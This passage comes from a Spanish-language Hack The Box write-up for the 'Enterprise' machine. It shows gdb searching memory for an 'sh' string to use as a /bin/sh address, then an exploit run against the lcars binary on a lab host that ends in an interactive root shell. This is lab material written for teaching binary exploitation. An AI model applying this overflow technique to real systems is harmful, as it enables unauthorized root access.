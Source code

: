 ```bash
```

Pero tampoco... Guiándome por algunos post, algunos simplemente buscaban la cadena "`sh`" (haciendo referencia a la `/bin/sh`), intentemos buscar esa cadena:

```bash
(gdb) find 0xf7e4c060,+87654321,"sh"
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
```

Hay 4 coincidencias en memoria, tomemos la primera y remplacémosla por la dirección `/bin/sh` que teníamos:

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname -I
10.10.10.61 172.17.0.1 dead:beef::250:56ff:feb9:7ba 
$ hostname
enterprise.htb
$  
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112boom.gif" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>
